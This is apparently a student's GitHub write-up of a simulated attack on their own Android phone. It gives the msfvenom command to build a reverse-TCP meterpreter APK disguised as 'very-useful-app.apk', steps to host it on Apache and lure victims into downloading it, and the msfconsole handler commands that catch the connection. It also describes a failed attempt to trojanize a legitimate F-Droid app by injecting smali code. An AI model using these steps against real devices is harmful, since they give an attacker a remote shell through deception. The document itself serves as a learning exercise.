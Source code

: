 For this simulated attack we will use my phone as the target device and my laptop as the attacking device. 
# Attack: Remote Shell execution by malicious payload present in target device

## Broad Idea
We will use a tool ```msfvenom``` to build an apk which will be downloaded on the target device, lets say via social engineering. We will then use ```msfconsole``` to listen on the listening port and connect to the reverse TCP shell on the target device.

### Generate the payload
```msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -o very-useful-app.apk```

```LHOST``` - The IP of the host who has sent the payload
```LPORT``` - The listening port for the payload to connect back to the attacker
```-o``` - The name of the resulting apk file generated 

### Deliver the file to the target device [Android]
Here we are going the host the the app as a website and whenever the unsuspeting victim browses to the website, they are prompted to download the file. This may be especiallly convincing when the user is trying to download pirated software, video or music. 

```sudo mv very-useful-app.apk /var/www/html```
```cd var/www/html```
```service apache2 start```

This starts up a website hosted on our computer itself, which hosts the file. 
Here is the POV of the victim downloading the apk. 

```Note that Google Play Protect has been disabled for this denomstration which would otherwise flag the file and not let the installation go through```

[target_downloading_the_payload.mp4](:/99ff52b9117d493d939570d5fe875d6d)

As the victim downloads the app we prepare for our next step. We start up Metasploit and select the exploit ```exploit/multi/handler``` and set up the same ```LHOST``` and ```LPORT```. The attacking device will now start listening on port 4444 and wait for connection from the payload.

```msfconsole```
```use exploit/multi/handler```
```set LHOST <attacker-IP>```
```set LPORT 4444```
```exploit```

Once the phone has installed the app and the victim tries to run it, the payload should activate and we will be given a shell on the android device. During my tests, I found that the target device had to force-start the app via Termux to get a persistent connection, otherwise the app would almost immediately get shut down by the android device. 

[force_starting_the_service.mp4](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/force_starting_the_service.mp4)

After we get a shell, we can explore the CLI interface of the android by typing ```help``` in the terminal. We soon realise that a lot of the commands are not usable by us. We need to perform privilege escalation to execute other commands. 
After this attempt I left for my class. When I came back the shell stopped working. I could not believe what I just witnessed and slowly came to realisation that it was time to get my hands dirty.

This picture is the only proof I have that I had actually managed to get a meterpreter shell on that android phone.

![the_only_proof.jpeg](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/the_only_proof.jpeg)

## # Troubleshooting Attempt - 1
I initially thought that the connection was weak so I tried port forwarding. 

![ngrok.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/ngrok.png)

![another_payload_using_port_fwd.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/another_payload_using_port_fwd.png)

![couldnt_reproduce_output.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/couldnt_reproduce_output.png)

Sadly, the output is still the same and msfconsole is left at listening mode.

## # Troubleshooting Attempt - 2
By now we can say that this vulnerability has been patched and the only effective way to get past this is to get the android to think this is a legitimate app but I'm not very good at this so here's my attempt

We get a legitimate app from the internet to act as the trojan, here we use F-Droid

![legitimate_app.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/legitimate_app.png)

Then we have to decompile both the apps and inject the malicious code from the payload into the legitimate F-Droid App.

![decompiling_both_apps.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/decompiling_both_apps.png)

Injecting malicious code from the payload into the ```AndroidManifest.xml``` file

![injecting_malicious_code.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/injecting_malicious_code.png)

![locating_the_MainActivity_file.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/locating_the_MainActivity_file.png)

![editing_smali_of_legit_app.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/editing_smali_of_legit_app.png)

This final step i.e. to edit the ```.smali``` file of the legitmate app, after doing which it started throwing errors during recompilation of the program.


## Final thoughts

Probably should've written my own script as these vulnerabilites get patched pretty quickly.

